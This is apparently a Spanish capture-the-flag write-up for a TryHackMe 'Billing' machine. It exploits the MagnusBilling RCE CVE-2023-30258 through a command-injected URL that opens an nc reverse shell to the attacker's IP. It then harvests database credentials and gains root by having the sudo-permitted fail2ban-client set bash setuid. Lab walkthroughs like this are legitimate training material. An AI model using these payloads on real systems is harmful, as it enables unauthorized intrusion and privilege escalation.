

## Reconocimiento
Lanzamos **nmap** a todos los puertos, con scripts y versiones de software:
```console
nmap -p- --min-rate 5000 -Pn -sVC -n 10.10.50.40 -oN nmap.txt           
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-09 16:21 CET
Warning: 10.10.50.40 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.50.40
Host is up (0.059s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 79:ba:5d:23:35:b2:f0:25:d7:53:5e:c5:b9:af:c0:cc (RSA)
|   256 4e:c3:34:af:00:b7:35:bc:9f:f5:b0:d2:aa:35:ae:34 (ECDSA)
|_  256 26:aa:17:e0:c8:2a:c9:d9:98:17:e4:8f:87:73:78:4d (ED25519)
80/tcp   open  http     Apache httpd 2.4.56 ((Debian))
| http-title:             MagnusBilling        
|_Requested resource was http://10.10.50.40/mbilling/
| http-robots.txt: 1 disallowed entry 
|_/mbilling/
|_http-server-header: Apache/2.4.56 (Debian)
3306/tcp open  mysql    MariaDB (unauthorized)
5038/tcp open  asterisk Asterisk Call Manager 2.10.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Comenzamos por el servicio HTTP, encontramos un panel de autenticación del software **MagnusBilling**, este utiliza **ExtJS** con versión *6.2.0.981*:


Buscamos información y exploits, encontramos una ejecución de código remoto sin autenticar con identificador **CVE-2023-30258** y con una prueba de concepto en este [artículo](https://attackerkb.com/topics/DFUJhaM5dL/cve-2023-30258).

Ejecutamos la prueba de concepto y vemos que funciona:
```console
curl -o /dev/null -s -w "%{time_total}\n" 'http://10.10.50.40/mbilling/lib/icepay/icepay.php?democ=iamhacked;sleep%2015;#'
15.180424
```

## Explotación
Ponemos un **Netcat** a la escucha por el puerto *443*, seguidamente ejecutamos el siguiente comando y conseguiremos una conexión interactiva con la máquina víctima:
```console
curl 'http://10.10.50.40/mbilling/lib/icepay/icepay.php?democ=iamhacked;rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%2010.9.1.119%20443%20%3E%2Ftmp%2Ff;#'
```

#### Reverse shell
```console
nc -nvlp 443
listening on [any] 443 ...
connect to [10.9.1.119] from (UNKNOWN) [10.10.50.40] 49718
sh: 0: can't access tty; job control turned off
$ id
sh: id: not found
$ which id
/usr/bin/id
$ /usr/bin/id
uid=1001(asterisk) gid=1001(asterisk) groups=1001(asterisk)
$ 
```

Anteriormente vimos que ganamos acceso con el usuario *asterisk*, también sabemos que existe el servicio abierto en el puerto *5038*, tal y como vimos con **nmap**.

Vemos que tenemos acceso a los ficheros web:
```console
$ ls -lna
total 80
drwx------ 2 1001 1001  4096 Mar  9 06:30 .
drwx------ 9 1001 1001  4096 Feb 27  2024 ..
-rw-r--r-- 1 1001 1001     0 Mar  9 06:37 iamhacked
-rwx------ 1 1001 1001   768 Feb 27  2024 icepay-cc.php
-rwx------ 1 1001 1001   733 Feb 27  2024 icepay-ddebit.php
-rwx------ 1 1001 1001   736 Feb 27  2024 icepay-directebank.php
-rwx------ 1 1001 1001   730 Feb 27  2024 icepay-giropay.php
-rwx------ 1 1001 1001   671 Feb 27  2024 icepay-ideal.php
-rwx------ 1 1001 1001   720 Feb 27  2024 icepay-mistercash.php
-rwx------ 1 1001 1001   710 Feb 27  2024 icepay-paypal.php
-rwx------ 1 1001 1001   699 Feb 27  2024 icepay-paysafecard.php
-rwx------ 1 1001 1001   727 Feb 27  2024 icepay-phone.php
-rwx------ 1 1001 1001   723 Feb 27  2024 icepay-sms.php
-rwx------ 1 1001 1001   699 Feb 27  2024 icepay-wire.php
-rwx------ 1 1001 1001 25097 Mar 27  2024 icepay.php
-rw-r--r-- 1 1001 1001     0 Sep 13 00:17 null
$ 
```

Encontramos un fichero web que incluye la configuración de conexión con la base de datos:
```php
asterisk@Billing:/var/www/html/mbilling/protected/config$ cat main_production.php
<?php
/**
 * =======================================
 * ###################################
 * MagnusBilling
 *
 * @package MagnusBilling
 * @author Adilson Leffa Magnus.
 * @copyright Copyright (C) 2005 - 2023 MagnusSolution. All rights reserved.
 * ###################################
 *
 * This software is released under the terms of the GNU Lesser General Public License v2.1
 * A copy of which is available from http://www.gnu.org/copyleft/lesser.html
 *
 * Please submit bug reports, patches, etc to https://github.com/magnusbilling/mbilling/issues
 * =======================================
 * Magnusbilling.com <info@magnusbilling.com>
 *
 */
$configFile = '/etc/asterisk/res_config_mysql.conf';
$array      = parse_ini_file($configFile);

return [
    'basePath'   => dirname(__FILE__) . DIRECTORY_SEPARATOR . '..',

```

```console
asterisk@Billing:/var/www/html/mbilling/protected/config$ cat /etc/asterisk/res_config_mysql.conf                                                                                         
[general]                                                                                                                                                                                 
dbhost = 127.0.0.1                                                                                                                                                                        
dbname = mbilling                                                                                                                                                                         
dbuser = mbillingUser                                                                                                                                                                     
dbpass = ****************                                                                                                                                                                 
                                                                                                                                                                                          
asterisk@Billing:/var/www/html/mbilling/protected/config$
```

Nos conectamos a la base de datos, dentro de la única base de datos encontramos las credenciales del usuario *root*: 
```console
asterisk@Billing:/var/www/html/mbilling/protected/config$ mysql -u mbillingUser -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 50
Server version: 10.5.23-MariaDB-0+deb11u1 Debian 11

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mbilling           |
+--------------------+
2 rows in set (0.000 sec)

MariaDB [(none)]> 
MariaDB [mbilling]> select username,password from pkg_user;
+----------+------------------------------------------+
| username | password                                 |
+----------+------------------------------------------+
| root     | **********************                   |
+----------+------------------------------------------+
1 row in set (0.000 sec)

MariaDB [mbilling]> 
```

Intentamos crackear el hash anterior, pero sin éxito, así que continuamos enumerando desde el directorio home del usuario *magnus*, logramos leer la flag de usuario:
```console
asterisk@Billing:/home/magnus$ ls -lna
total 76
drwxr-xr-x 15 1000 1000 4096 Sep  9 05:45 .
drwxr-xr-x  3    0    0 4096 Mar 27  2024 ..
lrwxrwxrwx  1    0    0    9 Mar 27  2024 .bash_history -> /dev/null
-rw-------  1 1000 1000  220 Mar 27  2024 .bash_logout
-rw-------  1 1000 1000 3526 Mar 27  2024 .bashrc
drwx------ 10 1000 1000 4096 Sep  9 03:01 .cache
drwx------ 11 1000 1000 4096 Mar 27  2024 .config
drwx------  3 1000 1000 4096 Sep  9 03:01 .gnupg
drwx------  3 1000 1000 4096 Mar 27  2024 .local
-rwx------  1 1000 1000  807 Mar 27  2024 .profile
drwx------  2 1000 1000 4096 Mar 27  2024 .ssh
drwx------  2 1000 1000 4096 Mar 27  2024 Desktop
drwx------  2 1000 1000 4096 Mar 27  2024 Documents
drwx------  2 1000 1000 4096 Mar 27  2024 Downloads
drwx------  2 1000 1000 4096 Mar 27  2024 Music
drwx------  2 1000 1000 4096 Mar 27  2024 Pictures
drwx------  2 1000 1000 4096 Mar 27  2024 Public
drwx------  2 1000 1000 4096 Mar 27  2024 Templates
drwx------  2 1000 1000 4096 Mar 27  2024 Videos
-rw-r--r--  1 1000 1000   38 Mar 27  2024 user.txt
asterisk@Billing:/home/magnus$ cat user.txt
THM{**********************************}
asterisk@Billing:/home/magnus$ 
```
## Escalada de privilegios
Vemos que existe el directorio .*ssh*, pero no tenemos permisos para leer la clave privada, pero si observamos que tenemos acceso a ejecutar **fail2ban-client** con **SUDO**:
```console
asterisk@Billing:/home/magnus$ sudo -l
Matching Defaults entries for asterisk on Billing:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on Billing:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
asterisk@Billing:/home/magnus$ 
```

Vemos que utiliza la versión de **fail2ban-client 0.11.2**:
```console
asterisk@Billing:/home/magnus$ sudo -u root /usr/bin/fail2ban-client version
0.11.2
```

Tras revisar el menú de ayuda de **fail2ban-client**, observamos que tenemos el control total de las opciones, por lo que no requiere que forcemos ningún servicio. Para ello, configuraremos una acción que ejecutará un cambio de permisos privilegiados sobre el binario **bash**, posteriormente ejecutamos un baneo manual a cualquier dirección IP para que ejecute la acción anterior, y finalmente leemos la flag de root:
```console
asterisk@Billing:/etc/fail2ban/action.d$ sudo /usr/bin/fail2ban-client set asterisk-iptables action iptables-allports-ASTERISK actionban 'chmod +s /bin/bash'
chmod +s /bin/bash
asterisk@Billing:/etc/fail2ban/action.d$ sudo /usr/bin/fail2ban-client set asterisk-iptables banip 10.10.1.120                                                
1
asterisk@Billing:/etc/fail2ban/action.d$ ls -lna /bin/bash 
-rwsr-sr-x 1 0 0 1234376 Mar 27  2022 /bin/bash
asterisk@Billing:/etc/fail2ban/action.d$ bash -p
bash-5.1# cat /root/
.bash_history      .cache/            .local/            .profile           .wget-hsts         passwordMysql.log  
.bashrc            .gnupg/            .mysql_history     .subversion/       filename           root.txt           
bash-5.1# cat /root/root.txt
THM{****************************}
bash-5.1# 
```

¡Hasta la próxima! ¡Que la "*suerte*" os acompañe!